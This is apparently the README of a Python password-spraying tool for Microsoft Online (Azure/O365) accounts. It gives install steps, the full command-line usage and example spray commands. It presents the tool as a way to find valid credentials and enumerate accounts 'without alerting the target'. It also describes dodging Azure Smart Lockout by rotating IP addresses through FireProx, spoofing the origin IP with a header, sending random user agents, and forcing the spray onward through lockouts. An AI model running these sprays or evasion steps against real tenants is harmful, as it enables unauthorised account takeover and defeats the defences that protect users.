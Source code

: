 # MSOLSpray Python rewrite
**This is a pure Python rewrite of [dafthack's MSOLSpray](https://github.com/dafthack/MSOLSpray/) which is written in PowerShell. All credit goes to him!**

MSOLSpray is a password spraying tool for Microsoft Online accounts (Azure/O365). The script logs if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled. 

**BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!**

## Why another spraying tool?
The main difference with this tool is that it is not only looking for valid passwords, but also the extremely verbose information Azure AD error codes give you. These error codes provide information relating to if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, if the account is disabled, if the password is expired and much more.

So this doubles as not only a password spraying tool but also a Microsoft Online recon tool that will provide account/domain enumeration. In limited testing it appears that on valid login to the Microsoft Online OAuth2 endpoint it isn't auto-triggering MFA texts/push notifications making this really useful for finding valid creds without alerting the target.

Lastly, this tool works well with [FireProx](https://github.com/ustayready/fireprox) to rotate source IP addresses on authentication requests. In testing this appeared to avoid getting blocked by Azure Smart Lockout.

## Quick Start
### Requirements

The easiest way to install dependencies is with `poetry`. You can do this by running:
```
poetry install
```

Alternatively, you can use `pip`:
```
pip install -r requirements.txt
```

### MSOLSpray

You will need a userlist file with target email-addresses one per line. 
```
usage: MSOLSpray.py [-h] (-u USERNAME | -U FILE) (-p PASSWORD | -P FILE) [-o OUTFILE] [-x PROXY] [--url URL] [-f] [--shuffle] [-a {0,1,2}]
                    [--notify NOTIFY] [--notify-actions NOTIFY_ACTIONS] [-s SLEEP] [--pause PAUSE] [-j JITTER] [-l PERCENT] [-H HEADERS] [-A NAME]
                    [--rua] [--timeout TIMEOUT] [-v]

This is a pure Python rewrite of dafthack's MSOLSpray (https://github.com/dafthack/MSOLSpray/) which is written in PowerShell. All credit goes to him!

This script will perform password spraying against Microsoft Online accounts (Azure/O365). The script logs if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled.

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        Single username
  -U FILE, --usernames FILE
                        File containing usernames in the format 'user@domain'.
  -p PASSWORD, --password PASSWORD
                        Single password.
  -P FILE, --passwords FILE
                        File containing passwords, one per line.
  -o OUTFILE, --out OUTFILE
                        A file to output valid results to (default: valid_creds.txt).
  -x PROXY, --proxy PROXY
                        Use proxy on requests (e.g. http://127.0.0.1:8080)
  --url URL             A comma-separated list of URL(s) to spray against (default: https://login.microsoft.com). Potentially useful if pointing at an
                        API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected.
  --shuffle             Shuffle user list.
  -a {0,1,2}, --auto-remove {0,1,2}
                        Auto remove accounts from next iterations (0: valid credentials (default), 1: previous + nonexistent/disabled, 2: previous +
                        locked).
  --notify NOTIFY       Slack webhook for sending notifications about results (default: None).
  --notify-actions NOTIFY_ACTIONS
                        Slack webhook for sending notifications about needed actions (default: same as --notify).
  -s SLEEP, --sleep SLEEP
                        Sleep this many seconds between tries (default: 0).
  --pause PAUSE         Pause (in minutes) between each iteration (default: 15).
  -j JITTER, --jitter JITTER
                        Maximum of additional delay given in percentage over base delay (default: 0).
  -l PERCENT, --max-lockout PERCENT
                        Maximum lockouts (in percent) to be observed before ask to abort execution. (default: 10).
  -H HEADERS, --header HEADERS
                        Extra header to include in the request (can be used multiple times).
  -A NAME, --user-agent NAME
                        Send User-Agent NAME to server (default: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
                        Chrome/58.0.3029.110 Safari/537.36").
  --rua                 Send random User-Agent in each request.
  --timeout TIMEOUT     Timeout for requests (default: 4)
  -v, --verbose         Prints usernames that could exist in case of invalid password.

EXAMPLE USAGE:
This command will use the provided userlist and attempt to authenticate to each account with a password of Winter2020.
    python3 MSOLSpray.py --userlist ./userlist.txt --password Winter2020

This command uses the specified FireProx URL to spray from randomized IP addresses and writes the output to a file. See this for FireProx setup: https://github.com/ustayready/fireprox.
    python3 MSOLSpray.py --userlist ./userlist.txt --password P@ssword --url https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox --out valid-users.txt

TIPS:
[1] When using along with FireProx, pass option -H "X-My-X-Forwarded-For: 127.0.0.1" to spoof origin IP.
```
